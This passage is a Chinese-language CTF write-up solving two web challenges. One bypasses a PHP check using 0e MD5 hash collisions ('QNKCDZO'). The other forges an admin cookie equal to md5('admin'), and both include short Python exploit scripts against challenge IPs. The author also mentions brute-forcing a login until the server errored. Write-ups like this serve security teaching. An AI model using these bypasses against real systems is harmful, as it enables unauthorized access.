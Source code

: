 ```php
```

提交一个flag参数， 参数里面如果包含`200`这个字符串就退出，如果字符串的md5值和`s1091221200a`一样就返回flag, 最开始我也没思路，一直没办法绕过。

问了出题人，出题人直接复制了这一个字符串，右键google...醉醉的，我咋没想到直接google这个数字呢

然后看到了这个一个[介绍](http://www.rabbit8.cn/569.html) php的哈希缺陷的，[这个也可以看](https://www.ohlinge.cn/php/0e_md5.html) ，然后页面里面随便选了一个值get提交就ok。 写了个exp如下


```python
import requests

url = 'http://119.29.16.200:5003'
str1 = 's1091221200a'
str2 = 'QNKCDZO'

web = requests.get(url+'/1.txt')
print web.encoding
web.encoding = 'utf-8'
print web.text
payload = {
        'flag': str2,
        }

r = requests.post(url, params=payload)
print r.encoding
r.encoding = 'utf-8'
print r.text
print r.headers

# 参考:http://www.rabbit8.cn/569.html
# flag{IsDc_0e_Th3e01}
```


## 0x03 admin
打开只有一个登录框，没有验证码提示账号密码都是test, 我猜是出题人怕我们写脚本爆破把服务器搞崩了，这个服务器在学校内网233333。

登录上去提示我们没有管理员权限，看了cookie以及网络请求都没东西，然后我试了试登录框用admin登录，开20个线程用burp爆破，10000的弱口令都没有..gg, 然后爆破的时候服务器500, 关了burp就没事，后来发现cookie是md5(test)的值， 然后把cookie改成md5(admin)就行了，poc如下


```python 
import requests

url = 'http://223.129.64.72:81/login'
url = 'http://223.129.64.72:81/'

payload = {
        'user':'test',
        'mm':'test'
        }
cookie = {
        'cookies': '21232f297a57a5a743894a0e4a801fc3'
        }

r = requests.Session()

# u = r.post(url,u payload, cookies=cookie)
u = requests.get(url, cookies=cookie)
print u.text
```
